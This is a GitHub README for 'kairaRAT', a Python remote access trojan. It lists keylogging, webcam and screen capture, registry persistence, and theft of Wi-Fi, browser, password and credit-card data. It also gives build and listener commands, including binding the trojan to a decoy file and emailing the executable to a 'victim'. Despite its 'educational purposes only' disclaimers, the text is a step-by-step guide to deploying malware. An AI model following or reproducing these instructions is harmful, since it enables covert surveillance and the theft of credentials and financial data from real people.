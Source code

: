 # kairaRAT
kairaRAT is a remote access trojan tool built with python. 

# This is based on the project of the same name by: st4inl3s5 (stainless)

Needs python 3.8 or higher

## EDUCATIONAL PURPOSES ONLY. 
### There is absolutely no warranty express or implied. 
### Do NOT USE on computers that you do not control.
### It is made exclusively for training in a highly Controlled lab environment. 
### Do NOT use outside a controlled lab. This is your last WARNING. 
### You are completely responsible for how you use kairaRAT. Any USE of kairaRAT is at your own risk. 
### Wrong / Improper use of kairaRAT may be an offence.
### Use of kairaRAT for BAD / Illegal activities is a punishable offence. 

## Features

+ File/directory managing (delete, rename, create, change etc.)

+ Download files from victim's computer.

+ Executing command on windows command prompt.

+ Taking screenshots from victim's computer.

+ Taking victim's camera snapshots.

+ Keylogger.

+ Persistence(hides trojan to registry and copies itself.)

+ Taking wifi names and passwords.

+ Connection without disconnection.

+ Can be merged with an arbitrary file.

+ Automatic build mode.

+ Taking browser saved cookies, passwords and credit cards.


## SETUP

You need 2 OS.1)Unix(You can use kali linux) OS 2)Windows OS.Unix for listening connections and managing connections.Windows for building .exe executable file.To make setup, execute the following command on both of them :

 On Windows:
     
     pip install -r winrequirements.txt

 On Linux:

     pip install -r linrequirements.txt

## USAGE

  1. If you want to put icon for the trojan, go to internet and find a image file.Then convert this image file to icon file(with .ico extension) and save this icon to your windows.And if you want to merge a file with trojan too, go to internet and find a merge file(this can be .docx, .png, .jpg etc.) and save to your windows.(This step is optional for social engineering.)
 
  2. In windows, open a command prompt terminal and change the directory to the kairaRAT project directory.Build the executable file with following command :
 
    python main.py build -ip <your_server_ip_address> -p <your_server_port> -i <icon_file(optional)> -m <file_to_merge(optional)> -n <file_name_after_build_finish(optional)>
 
  + Example

        python main.py build -ip 172.28.89.113 -p 4444 -i filetoicon.ico -m hashtypes.png -n kaira.exe
 
  + Example
  
        python main.py build -ip 172.28.89.113 -p 4444 -n kaira.exe
 
![zibab2](https://github.com/st4inl3s5/kairaRAT/assets/68844502/e1a1f0c5-90e7-4db2-8bbc-02c3ada16920)

  3. Wait for building process.When the building finished, you see a message :
 
![zibib3](https://github.com/st4inl3s5/kairaRAT/assets/68844502/1dcc35df-0e02-46ee-82e7-45b03f51a5b5)

  4. Check the builds directory.You must see the executable file.

![zibib4](https://github.com/st4inl3s5/kairaRAT/assets/68844502/8e00b10f-f171-4790-a819-0c9f5f33e70b)

  5. After that, send this executable file to your victim via email etc.And wait for victim's execute the file.When executed, the merge file will be opened(if you configured to) and trojan executing in background.Copies itself, keylogging and makes persistence.
 
![zibib5](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f90e71f9-c883-4600-ae8d-bdb3f8ae0ab6)

  6. Then listen the connections on your linux with the following command :
 
    python3 main.py server -ip <your_server_ip_address> -p <your_server_port>
 
  +  Example

    python3 main.py server -ip 172.28.89.113 -p 4444 
 
  7. When the connection established, a screen like this appear :

![zibib1](https://github.com/st4inl3s5/kairaRAT/assets/68844502/3b84fe44-21e2-43de-ab7a-c3c50d5fb35c)

  8. Type 'help' for command list.The usage all of them is written.
 
  9. You can take camera snapshots, screenshots, victim's keylogs.
 
![zibib6](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f6695aa3-cb72-4b80-83d1-9ff27ec8c681)


